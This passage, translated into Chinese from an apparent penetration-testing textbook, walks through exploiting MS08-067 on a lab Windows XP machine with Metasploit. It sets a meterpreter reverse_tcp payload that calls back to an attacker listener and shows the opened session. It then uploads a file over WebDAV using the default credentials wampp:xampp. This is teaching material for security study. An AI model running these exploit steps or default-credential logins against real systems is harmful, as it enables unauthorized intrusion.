 我们在第四章中看到，Metasploit 的默认有效载荷是*windows/smb/ms08_067_netapi*，其默认的负载是*windows/meterpreter/reverse_tcp*。这次我们将使用*windows/meterpreter/reverse_tcp*有效载荷配合我们的 MS08-067 漏洞。我们的有效载荷选项应该和之前使用的其他反向载荷相似。让我们设置好有效载荷并运行漏洞攻击，如示例 8-1 所示。

示例 8-1. 使用 Meterpreter 有效载荷利用 MS08-067 漏洞

```
msf  exploit(ms08_067_netapi) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(ms08_067_netapi) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(ms08_067_netapi) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending Stage to 192.168.20.10...
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:4312) at 2015-01-12 00:11:58 -0500
```

如输出所示，运行这个漏洞攻击应该会打开一个 Meterpreter 会话，我们将能够在后期利用中使用它。

## 利用 WebDAV 默认凭据

在第六章中，我们发现目标 Windows XP 上的 XAMPP 安装使用 WebDAV 文件夹的默认登录凭据来上传文件到 Web 服务器。这个问题允许我们使用 Cadaver（一款 WebDAV 命令行客户端）上传自己的页面到服务器，我们在第六章中使用它来验证这个漏洞。让我们创建一个简单的测试文件来上传：

```
root@kali:~# **cat test.txt**
test
```

现在使用凭据*wampp:xampp*通过 WebDAV 进行身份验证。

```
root@kali:~# **cadaver http://192.168.20.10/webdav**
Authentication required for XAMPP with WebDAV on server `192.168.20.10':
Username: **wampp**
Password:
dav:/webdav/>
```

最后，使用 WebDAV 的`put`命令将我们的*test.txt*文件上传到 Web 服务器。

```
dav:/webdav/> **put test.txt**
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 5 bytes succeeded.
dav:/webdav/>
```

如果你浏览到 */webdav/test.txt*，你应该能看到我们已经成功将文本文件上传到网站，如图 8-1 所示。

![通过 WebDAV 上传的文件](img/httpatomoreillycomsourcenostarchimages2030386.png.jpg)图 8-1. 通过 WebDAV 上传的文件
